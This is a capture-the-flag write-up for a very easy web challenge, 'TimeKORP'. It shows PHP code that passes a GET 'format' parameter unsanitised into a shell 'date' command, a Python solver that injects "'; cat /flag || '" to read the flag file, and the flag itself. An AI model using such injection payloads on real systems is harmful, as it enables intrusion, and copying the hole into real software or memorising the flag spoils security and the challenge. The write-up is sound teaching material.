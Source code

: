 # TimeKORP

### Description:
* Are you ready to unravel the mysteries and expose the truth hidden within Korp's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

### Objective:
* Command Injection

### Difficulty:
* `Very Easy`

### Flag:
* `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`

### Challenge:

<p align='center'>
  <img src='assets/preview.png'>
</p>

# [__⏰ Time Factory__](#time-factory)

In [`controllers/TimeController.php`](challenge/controllers/TimeController.php), we see that the the application expects input through `$_GET`'s `format` value. If there isn't one it default to `'%H:%M:%S'` and then passes it to `TimeModel` and displays the invoked `getTime()` method to the view.
```javascript
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

In [`models/TimeModel.php`](challenge/models/), the function argument then constructs a variable called `command` which is later going to be passed to `exec`. Using the `format` GET parameter, we can escape the context of the `date` command and utilise command injection in order to get RCE. 

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%s/' % (host, port)

r = requests.get(HOST, params={ 'format': "'; cat /flag || '" })
print(r.text)
```
